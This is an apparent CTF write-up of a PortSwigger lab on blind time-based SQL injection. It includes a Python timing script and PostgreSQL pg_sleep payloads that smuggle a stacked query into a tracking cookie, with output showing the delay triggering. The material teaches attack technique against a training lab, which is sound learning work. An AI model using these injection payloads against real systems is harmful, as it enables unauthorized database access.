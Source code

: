 # Blind SQL injection with time delays

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays), you'll learn: Blind SQL injection with time delays! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a 10 second delay.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-14/images/Pasted%20image%2020221209022117.png)

**Tracking cookie:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-14/images/Pasted%20image%2020221209022147.png)

**In the previous labs, we found that there is a blind SQL injection vulnerability in the tracking cookie.**

**For the sake of automation, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from time import time
import urllib.parse

def main():
	url = 'https://0a940002030b0daec0a4e9a00011002f.web-security-academy.net/'

	payload = """PAYLOAD_HERE"""
	finalPayload = urllib.parse.quote(payload)

	cookie = {
		'session': 'YOUR_SESSIONID',
		'TrackingId': finalPayload
	}

	startTime = time()
	requests.get(url, cookies=cookie)
	endTime = time()
	finalTime = endTime - startTime

	if finalTime >= 10:
		print(f'[+] Payload triggered, slept for {finalTime:.2f}s')
	else:
		print(f'[-] Payload didn\'t trigger, slept for {finalTime:.2f}s')

if __name__ == '__main__':
	main()
```

**To trigger a Time-Based SQL injection, we use the following payloads:** (From [PortSwigger's SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet))

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-14/images/Pasted%20image%2020221209023003.png)

**After some fumbling around, I found PostgreSQL time delay payload works:**
```py
# Payload 1:
payload = """';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--"""

# Payload 2:
payload = """';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--"""
```

```
# Payload 1:
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-14]
└─# python3 exploit.py
[+] Payload triggered, slept for 11.27s

# Payload 2:
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-14]
└─# python3 exploit.py
[-] Payload didn't trigger, slept for 0.92s
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-14/images/Pasted%20image%2020221209023126.png)

# What we've learned:

1. Blind SQL injection with time delays